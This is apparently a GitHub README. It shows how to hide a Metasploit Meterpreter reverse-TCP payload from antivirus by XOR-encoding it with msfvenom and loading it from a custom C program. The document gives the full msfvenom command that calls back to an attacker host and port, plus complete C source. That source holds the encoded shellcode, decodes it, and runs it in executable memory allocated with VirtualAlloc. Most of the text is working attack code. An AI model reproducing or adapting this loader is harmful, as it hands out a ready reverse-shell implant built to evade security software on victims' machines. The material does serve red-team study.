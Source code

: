 
# Anti Virus Evasion with Encrypted Payloads

This is a quick demonstration of how to embed Metasploit payloads in custom
C programs. The payload is encrypted and the containing program is custom
written.

## Generating the payload

First, use msfvenom to generate the shellcode of choice. Here is a simple
Meterpreter payload that connects back to 10.0.0.10 on port 8123:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.10 LPORT=8123 -f c --encrypt xor --encrypt-key 32
```

This will "encrypt" the payload by XORing it with the key, `32`, in this
example. The key is hex.

The output of this will look something like this:

```
    int payload_size = 510;
    unsigned char payload[] =
        "\xce\x7a\xb1\xd6\xc2\xda\xfe\x32\x32\x32\x73\x63\x73\x62\x60"
        "\x7a\x03\xe0\x63\x57\x7a\xb9\x60\x52\x64\x7a\xb9\x60\x2a\x7a"
        "\xb9\x60\x12\x7a\xb9\x40\x62\x7f\x03\xfb\x7a\x3d\x85\x78\x78"
        "\x7a\x03\xf2\x9e\x0e\x53\x4e\x30\x1e\x12\x73\xf3\xfb\x3f\x73"
...
```

## Custom Program

The following is a simple C program which can be compiled with Visual
Studio. The code generated above will be decrypted and then executed.

The key here is hard-coded, but this is sufficient that AV won't see
anything, at least until it is about to be executed.

```
#include "stdafx.h"
#include "windows.h"
#include <iostream>

using namespace std;

int main()
{
	int payload_size = 510;
	unsigned char payload[] =
		"\xce\x7a\xb1\xd6\xc2\xda\xfe\x32\x32\x32\x73\x63\x73\x62\x60"
		"\x7a\x03\xe0\x63\x57\x7a\xb9\x60\x52\x64\x7a\xb9\x60\x2a\x7a"
		"\xb9\x60\x12\x7a\xb9\x40\x62\x7f\x03\xfb\x7a\x3d\x85\x78\x78"
		"\x7a\x03\xf2\x9e\x0e\x53\x4e\x30\x1e\x12\x73\xf3\xfb\x3f\x73"
		"\x33\xf3\xd0\xdf\x60\x73\x63\x7a\xb9\x60\x12\xb9\x70\x0e\x7a"
		"\x33\xe2\x54\xb3\x4a\x2a\x39\x30\x3d\xb7\x40\x32\x32\x32\xb9"
		"\xb2\xba\x32\x32\x32\x7a\xb7\xf2\x46\x55\x7a\x33\xe2\x76\xb9"
		"\x72\x12\x62\xb9\x7a\x2a\x7b\x33\xe2\xd1\x64\x7f\x03\xfb\x7a"
		"\xcd\xfb\x73\xb9\x06\xba\x7a\x33\xe4\x7a\x03\xf2\x9e\x73\xf3"
		"\xfb\x3f\x73\x33\xf3\x0a\xd2\x47\xc3\x7e\x31\x7e\x16\x3a\x77"
		"\x0b\xe3\x47\xea\x6a\x76\xb9\x72\x16\x7b\x33\xe2\x54\x73\xb9"
		"\x3e\x7a\x76\xb9\x72\x2e\x7b\x33\xe2\x73\xb9\x36\xba\x73\x6a"
		"\x73\x6a\x7a\x33\xe2\x6c\x6b\x68\x73\x6a\x73\x6b\x73\x68\x7a"
		"\xb1\xde\x12\x73\x60\xcd\xd2\x6a\x73\x6b\x68\x7a\xb9\x20\xdb"
		"\x79\xcd\xcd\xcd\x6f\x7b\x8c\x45\x41\x00\x6d\x01\x00\x32\x32"
		"\x73\x64\x7b\xbb\xd4\x7a\xb3\xde\x92\x33\x32\x32\x7b\xbb\xd7"
		"\x7b\x8e\x30\x32\x12\x2c\x38\x32\x32\x31\x73\x66\x7b\xbb\xd6"
		"\x7e\xbb\xc3\x73\x88\x7e\x45\x14\x35\xcd\xe7\x7e\xbb\xd8\x5a"
		"\x33\x33\x32\x32\x6b\x73\x88\x1b\xb2\x59\x32\xcd\xe7\x58\x38"
		"\x73\x6c\x62\x62\x7f\x03\xfb\x7f\x03\xf2\x7a\xcd\xf2\x7a\xbb"
		"\xf0\x7a\xcd\xf2\x7a\xbb\xf3\x73\x88\xd8\x3d\xed\xd2\xcd\xe7"
		"\x7a\xbb\xf5\x58\x22\x73\x6a\x7e\xbb\xd0\x7a\xbb\xcb\x73\x88"
		"\xab\x97\x46\x53\xcd\xe7\xb7\xf2\x46\x38\x7b\xcd\xfc\x47\xd7"
		"\xda\xa1\x32\x32\x32\x7a\xb1\xde\x22\x7a\xbb\xd0\x7f\x03\xfb"
		"\x58\x36\x73\x6a\x7a\xbb\xcb\x73\x88\x30\xeb\xfa\x6d\xcd\xe7"
		"\xb1\xca\x32\x4c\x67\x7a\xb1\xf6\x12\x6c\xbb\xc4\x58\x72\x73"
		"\x6b\x5a\x32\x22\x32\x32\x73\x6a\x7a\xbb\xc0\x7a\x03\xfb\x73"
		"\x88\x6a\x96\x61\xd7\xcd\xe7\x7a\xbb\xf1\x7b\xbb\xf5\x7f\x03"
		"\xfb\x7b\xbb\xc2\x7a\xbb\xe8\x7a\xbb\xcb\x73\x88\x30\xeb\xfa"
		"\x6d\xcd\xe7\xb1\xca\x32\x4f\x1a\x6a\x73\x65\x6b\x5a\x32\x72"
		"\x32\x32\x73\x6a\x58\x32\x68\x73\x88\x39\x1d\x3d\x02\xcd\xe7"
		"\x65\x6b\x73\x88\x47\x5c\x7f\x53\xcd\xe7\x7b\xcd\xfc\xdb\x0e"
		"\xcd\xcd\xcd\x7a\x33\xf1\x7a\x1b\xf4\x7a\xb7\xc4\x47\x86\x73"
		"\xcd\xd5\x6a\x58\x32\x6b\x7b\xf5\xf0\xc2\x87\x90\x64\xcd\xe7";


	unsigned char key = '\x32';

	for (int i = 0; i < payload_size; i++) {
		payload[i] = payload[i] ^ key;
	}

	char x;
	//printf("yay it works\n");
	cout << "here 1" << endl;
	cout << "press enter" << endl;
	cin >> x;
	cout << "proceeding" << endl;

	char *code;
	code = (char*)VirtualAlloc(NULL, payload_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	cout << "VA worked" << endl;
	memcpy(code, payload, payload_size);
	cout << "memcpy worked" << endl;
	((void(*)())code)();
	cout << "at end, somehow" << endl;

    return 0;
}

```
